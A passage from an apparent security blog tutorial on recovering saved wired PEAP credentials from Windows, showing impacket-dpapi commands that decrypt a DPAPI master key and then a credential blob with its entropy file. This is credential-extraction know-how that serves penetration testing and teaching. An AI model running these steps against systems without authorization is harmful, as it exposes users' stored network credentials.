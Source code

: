 Thanks to the DPAPI user key, we can then decrypt the master key file, and thereby extract the key that protects our DPAPI blob.

```bash
impacket-dpapi masterkey -file "48C77EF6-4AA9-4DA5-B850-B545E4B86DE6" -key "0xc99eb525bc17b9da543b4851290dff4066502f39"
```

![Decrypting the master key file with "dpapi.py"](/assets/posts/2024-02-25-peap-credentials-wired-connections/20_dpapi-masterkey-decrypted.png)
_Decrypting the master key file with "dpapi.py"_

And finally, we can provide the DPAPI blob, the encryption key and the entropy file to `dpapi.py` to decrypt the DPAPI blob and extract the saved credentials.

```bash
echo "6eafe55eabc3495c9808c61ee123342f" | xxd -r -p > entropy.bin
impacket-dpapi unprotect -file "wired.bin" -key "0x73b724580d0abfd9ebb62c462151334ced52fb75203dace1f8ab631326b75c3a297246e577362dfba88bb3ae5561fa091e1d9b02c450d859a19fed66e397d9f5" -entropy-file "entropy.bin"
```
